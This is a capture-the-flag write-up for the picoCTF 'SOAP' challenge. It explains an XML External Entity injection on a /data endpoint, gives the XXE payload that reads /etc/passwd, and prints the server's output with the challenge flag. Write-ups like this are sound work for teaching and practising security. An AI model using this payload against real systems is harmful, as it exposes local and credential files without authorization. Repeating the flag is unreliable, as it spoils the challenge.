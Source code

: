 # Challenge "SOAP" Writeup

## Vulnerability: XML External Entity (XXE) Injection

### Where: Insecure handling of XML input within the `/data` endpoint

### Impact: The challenge demonstrates how an XXE vulnerability can allow unauthorized access to sensitive files, like `/etc/passwd`, resulting in data exposure.

**NOTE**: This challenge involves injecting an external entity in the XML structure, allowing the attacker to read local files.

## Steps to reproduce:

1. **Identify XML Input and Endpoint**:
   The `/data` endpoint accepts XML input, which we used to craft an XXE payload. Given the lack of security checks, this endpoint is vulnerable to XXE, allowing us to attempt reading files from the server.

2. **Construct the XXE Payload**:
   Using the provided XML structure, we modified the XML in Burp Suite to include an external entity that references the `/etc/passwd` file:
   
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE replace [
     <!ENTITY ent SYSTEM "file:///etc/passwd">
   ]>
   <data><ID>&ent;</ID></data>
    ```
3. **Retrieve the Flag**: Upon submitting the payload, the server returned the contents of /etc/passwd, including the flag (picoCTF{xML_3xtern@l_3nt1t1ty_540f4f1e}):
 
    ```
    Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
    ```
## Conclusion:
By exploiting the XXE vulnerability, we were able to read the /etc/passwd file, which contained the challenge flag. This confirmed the server’s lack of XML entity parsing restrictions, leading to unauthorized file access and flag retrieval.
